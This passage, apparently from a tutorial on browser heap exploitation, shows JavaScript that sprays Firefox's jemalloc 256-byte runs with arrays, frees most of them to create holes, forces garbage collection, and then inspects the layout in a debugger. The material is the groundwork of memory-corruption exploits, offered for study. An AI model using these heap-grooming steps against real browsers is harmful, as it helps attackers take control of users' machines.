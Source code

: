 We start by spraying with ArrayObjects the 256-sized jemalloc runs. Again,
we have to bypass the nursery and move our objects to jemalloc, so the
size of our spray is 16777216 / 256 == 65536 arrays.

    var spray_size = 66000;
    var container = new Array();

    for(var i = 0; i < spray_size; i++)
    {
        container[i] = new Array();

        for(var j = 0; j < 30; j += 2) // 30 * 8 == 240 bytes
        {
            container[i][j]     = 0x45464645;
            container[i][j + 1] = 0x47484847;
        }
    }

This time, instead of creating a hole every other allocation, we create two
holes for every ArrayObject we leave on the jemalloc heap. We also trigger
a GC to make the holes reclaimable.

    for(var i = 0; i < spray_size; i += 3)
    {
        delete(container[i]);
        container[i] = null;
        container[i] = undefined;

        delete(container[i + 1]);
        container[i + 1] = null;
        container[i + 1] = undefined;
    }

    var gc_ret = trigger_gc();

Let's assume at this point that we have a breakpoint and look at how the
jemalloc 256-sized runs look like:

    0:043> !py c:\tmp\pykd_driver jeruns -s 256
    [shadow] listing allocated non-current runs for size class 256
    [shadow] [total non-current runs 446]
    
    [shadow] [run 0x0e507000] [size 016384] [bin 0x00700608]
        [region size 0256] [total regions 0063] [free regions 0000]

    ...

    [shadow] [run 0x11d03000] [size 016384] [bin 0x00700608]
        [region size 0256] [total regions 0063] [free regions 0042]

    [shadow] [run 0x15f09000] [size 016384] [bin 0x00700608]
        [region size 0256] [total regions 0063] [free regions 0042]

    [shadow] [run 0x15f0d000] [size 016384] [bin 0x00700608]
        [region size 0256] [total regions 0063] [free regions 0042]

    [shadow] [run 0x15f11000] [size 016384] [bin 0x00700608]
        [region size 0256] [total regions 0063] [free regions 0042]
